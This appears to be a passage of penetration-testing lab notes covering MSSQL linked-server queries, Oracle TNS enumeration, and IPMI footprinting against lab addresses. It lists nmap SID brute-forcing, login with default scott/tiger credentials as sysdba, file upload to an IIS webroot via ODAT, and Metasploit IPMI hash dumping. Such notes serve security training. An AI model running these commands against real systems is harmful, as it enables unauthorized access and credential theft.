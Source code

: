 ```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
## Oracle TNS
### Fingerprinting the Service
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
### Nmap - SID Bruteforcing
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
### ODAT
```
./odat.py all -s 10.129.204.235
```
### SQLplus - Log In
```
sqlplus scott/tiger@10.129.204.235/XE;
```
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
### Oracle RDBMS - Database Enumeration
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
### Oracle RDBMS - File Upload
```
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
```
curl -X GET http://10.129.204.235/testing.txt
```
## IPMI
### Footprinting the Service
```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```
### Metasploit Version scan
```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```
### Metasploit Dumping Hashes
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
```
